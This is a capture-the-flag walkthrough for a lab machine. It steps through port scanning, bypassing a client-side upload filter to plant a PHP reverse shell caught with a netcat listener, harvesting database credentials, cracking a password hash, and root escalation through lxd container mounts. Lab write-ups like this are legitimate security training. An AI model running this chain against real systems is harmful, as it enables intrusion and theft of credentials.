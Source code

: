 # The Trial Before Christmas

- Scan the machine. What ports are open?

	- `scilla port -target <TARGET_IP>`, [scilla here](https://github.com/edoardottt/scilla)
	- `80, 65000`

- What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

	- `http://<TARGET_IP>:65000`
	- `Light Cycle`

- What is the name of the hidden php page?

	- `gobuster dir -u http://<TARGET_IP>:65000 -x .php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `uploads.php`

- What is the name of the hidden directory where file uploads are saved?

	- `scilla dir -target http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `grid`

- Bypass the filters. Upload and execute a reverse shell.

	  no answer needed

	- Navigate to `http://<TARGET_IP>:65000/uploads.php`
	- Download [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	- Change the ip from the default to yours ip.
	- Upload the file.
	- Damn. Invalid file.
	- Let's look to the validation.
	- Found `assets/js/filter.js`.
	~~~
	const filter = file => {
		if(["image/png", "image/jpeg", "image/jpg"].indexOf(file.type) < 0){
			return false;
		} else if (["png", "jpeg", "jpg"].indexOf(file.name.split(".").pop()) < 0){
			return false;
		}

		//Let's be honest -- these things are dangerous. May as well always return false Â¯\_(ãƒ„)_/Â¯
		return false;

	}
	~~~
	- This instead in `upload.js`
	~~~
	const upload = () => {
	let file = uploadInput.files[0];
	if(typeof filter === "function"){
		if(!filter(file)){
			changeMsg("Invalid File Type");
			return;
		}
	}
	~~~
	- Mhhh...
	- And here we are: `accept=".png,.jpg,.jpeg"`
	- Rename that file to `rshell.jpg.php`
	- We have to avoid the download/usage of `filter.js`.
	- We can block it using the Developers Tools (F12) or using Burp.
	- *tips* If you are having trouble, clear all the cache/data in browser.
	- Move to `http://<TARGET_IP>:65000/grid/`
	- On your machine `nc -lnvp 1234`
	- Click on the uploaded file.

- What is the value of the web.txt flag?

	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `cat /var/www/web.txt`
	- `THM{**************}`

- Upgrade and stabilize your shell.

	  no answer needed
	
	- Referred to the first command of the previous task (`python3...`).

- Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

	- `cd /var/www/TheGrid`
	- `ls -alh`
	- `cd includes`
	- `cat dbauth.php`
	- `tron:I****************`

- Access the database and discover the encrypted credentials. What is the name of the database you find these in?

	- `mysql -u tron -p`
	- Enter the password.
	- `show databases;`
	- `tron`

- Crack the password. What is it?

	- `show tables;`
	- `use users;`
	- `select * from users;`
	~~~
	+----+----------+----------------------------------+
	| id | username | password                         |
	+----+----------+----------------------------------+
	|  1 | flynn    | ed*********d19a13*********	   |
	+----+----------+----------------------------------+
	~~~
	- `hash-identifier`
	- [crackstation](https://crackstation.net/)
	- `**********`

- Use su to login to the newly discovered user by exploiting password reuse.

	  no answer needed

	- Exit from mysql client with `exit`.
	- `su flynn`
	- Enter the password

- What is the value of the user.txt flag?

	- `cd ~`
	- `ls`
	- `cat flag.txt`
	- `THM{********_****_***********}`

- Check the user's groups. Which group can be leveraged to escalate privileges?

	- `id`
	- `lxd`

- Abuse this group to escalate privileges to root.

	  no answer needed

	- Check with `lxc image list` on target machine which containers are available locally.
	~~~
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	~~~
	- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true`
	- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true`
	- `lxc start CONTAINERNAME`
	- `lxc exec CONTAINERNAME /bin/sh`
	- `id`	

- What is the value of the root.txt flag?

	- `cd /mnt/root/root`
	- `THM{***********}`

	~~~
	"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
	~~~


### see you ...

